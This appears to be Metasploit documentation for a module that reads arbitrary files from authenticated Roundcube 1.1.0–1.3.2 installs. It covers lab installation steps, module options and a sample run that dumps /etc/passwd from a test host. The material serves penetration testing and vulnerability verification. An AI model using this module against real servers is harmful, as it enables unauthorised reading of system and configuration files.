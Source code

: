 ## Vulnerable Application

Roundcube Webmail allows unauthorized access to arbitrary files on the host's filesystem, including configuration files.
This affects all versions from 1.1.0 through version 1.3.2. The attacker must be able to authenticate at the target system
with a valid username/password as the attack requires an active session.

Tested against version 1.3.2

### Install Roundcube 1.3.2 on Ubuntu 22.04

Instructions are loosely based on https://www.digitalocean.com/community/tutorials/how-to-install-your-own-webmail-client-with-roundcube-on-ubuntu-16-04

The main point of pain is installing PHP 7.0 on Ubuntu 22.04

#### Install LAMP

```
sudo apt-get install -y tasksel
sudo tasksel install lamp-server
```

#### Install PHP 7.0

```
sudo apt install software-properties-common ca-certificates lsb-release apt-transport-https dbconfig-sqlite3
LC_ALL=C.UTF-8 sudo add-apt-repository ppa:ondrej/php
sudo apt update
sudo apt-get install php7.0 php7.0-xml php7.0-mbstring php7.0-intl php7.0-zip php7.0-sqlite3
sudo a2dismod php8.1
sudo a2enmod php7.0
```

#### Configure PHP

```
sudo nano /etc/php/7.0/apache2/php.ini
```

Uncomment the following lines:

```
extension=php_mbstring.dll
extension=php_xmlrpc.dll
extension=php_pdo_sqlite.dll
```

Add the following line to the end of the extension list:

```
extension=dom.so
```

Uncomment and change the following values:

```
date.timezone = "America/New_York"
upload_max_filesize = 12M
post_max_size = 18M
mbstring.func_overload = 0
```

#### Install dovecot

```
sudo apt install dovecot-imapd
```

#### Install Roundcube

```
wget https://github.com/roundcube/roundcubemail/releases/download/1.3.2/roundcubemail-1.3.2-complete.tar.gz -O /tmp/roundcubemail-1.3.2-complete.tar.gz
sudo tar -zxf /tmp/roundcubemail-1.3.2-complete.tar.gz -C /var/www/html/
sudo chown -R root:root /var/www/html/roundcubemail-1.3.2/
```
#### Configure Apache

```
sudo cp /etc/apache2/sites-available/000-default.conf /etc/apache2/sites-available/roundcubemail-1.3.2-complete.config
sudo vi /etc/apache2/sites-available/roundcubemail-1.3.2-complete.config
```

Update `ServerName <rhost IP>` `DocumentRoot /var/www/html/roundcubemail-1.3.2/`

Save and close the file, now reload Apache

```
sudo systemctl restart apache2
```

Browse to `/installer`.  Almost all settings will be kept as default,
however, for the database setup we'll use a sqlite db for ease.
Select `SQLite`, and change the Database name to `/tmp/roundcube.db`.
all other fields within `db_dsnw` should be blank.

On the next screen, make sure to click the button under Check DB config
to create the initial database.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/roundcube_auth_file_read`
1. Do: `set rhost [ip]`
1. Do: `set USERNAME [username]`
1. Do: `set PASSWORD [password]`
1. Do: `run`
1. You should get contents of specified file.

## Options

## Scenarios

### Roundcube 1.3.2 with php 7.0 on Ubuntu 22.04

```
resource (msf)> set rhost 10.10.10.10
rhost => 10.10.10.10
resource (msf)> set TARGETURI /roundcubemail-1.3.2/
TARGETURI => /roundcubemail-1.3.2/
resource (msf)> set rport 80
rport => 80
resource (msf)> set verbose true
verbose => true
resource (msf)> set USERNAME roundcube_user
USERNAME => roundcube_user
resource (msf)> set PASSWORD roundcube_password
PASSWORD => roundcube_password
msf auxiliary(gather/roundcube_auth_file_read) > run
[*] Running module against 10.10.10.10

[+] Token Value: JDGak0VjivacBBT9FVJbN4eqaelDHLX0
[*] Attempting login
[*] Attempting exploit
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
arangodb:x:998:999:ArangoDB Application User:/usr/share/arangodb3:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
postgres:x:115:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
dovecot:x:116:122:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:117:123:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
roundcube_user:x:1001:1001:,,,:/home/roundcube_user:/bin/bash
```
